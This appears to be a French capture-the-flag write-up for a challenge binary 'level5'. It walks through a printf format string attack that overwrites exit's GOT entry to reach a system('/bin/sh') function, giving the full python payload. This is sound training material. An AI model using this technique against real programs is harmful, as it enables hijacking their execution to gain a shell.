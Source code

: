 Si on disass notre executable il call printf avec notre input et utilise exit pour terminer le programme.
On remarque aussi que une fonction est presente mais n'est pas appelée, la fonction o exécute system("/bin/sh").
On en déduit qu'il va falloir detourner notre executable afin qu'il lance la fonction qui n'est pas utilisée ( la fonction o )

Vu que notre input est directement utilisé par printf nous pouvons effectuer un format string attack, mais contrairement a l'exercice d'avant nous ne pouvons pas utiliser le retour de la fonction pour l'exploit car la fonction se termine avant avec l'appel de exit(). Donc il n'y a pas d'EIP a overwrite.
Cepedant l'exécutable utilise des 'dynamic link' et une faille est possible en écrasant la valeur de notre relocation (effectuée par plt) de la fonction exit. On va donc chercher a remplacer la valeur de notre GOT ( global offset table ) qui contient l'adresse pour exécuter exit().
Si on remplace l'adresse par celle de notre fonction o, notre fonction sera donc exécutée quand un appel à exit.plt sera effectué.

Pour obtenir les différentes adresses:
Dans gdb:
--> info functions
- 0x080484a4  o

et pour avoir l'emplacement de la relocation on utilise readelf
--> readelf -r ./level5
- 08049838  00000607 R_386_JUMP_SLOT   00000000   exit

Pour récapituler nous devons donc écrire 0x080484a4 (o) dans 08049838 (reloc)
0x080484a4 en décimal vaut 134513828

comme dans l'ancien exercice on utilise %p pour trouver l'emplacement de notre format string dans la stack

--> python -c "print('AAAA' + ' %p'*10)" | ./level5
- AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520

Notre string 'AAAA' est le 4eme element.
Nous pouvons donc pointer dessus de cette maniere '%4\$p'
--> python -c "print('AAAA' + ' %4\$p')" | ./level5
- AAAA 0x41414141

Cela fonctionne correctement il nous reste donc à tout assembler, c'est à dire écrire notre adresse 0x08049838 (reloc) notre nombre 0x080484a4 (o) en utilisant le %n de printf. ( attention a bien faire -4 a notre valeur car l'adresse que nous ecrivont avant vaut 4 soit 134513824 )
--> python -c "print('\x38\x98\x04\x08' + '%134513824d' + ' %4\$n')" | ./level5
On attend une vingtaine de secondes que tous les caractères soient entrés. 
Il ne se passe rien car notre appel system se fini directement, il faut donc garder le stdin ouvert afin de pouvoir interagir avec notre sh qui est executé ! 

--> (python -c "print('\x38\x98\x04\x08' + '%134513824d' + ' %4\$n')" ; cat) | ./level5

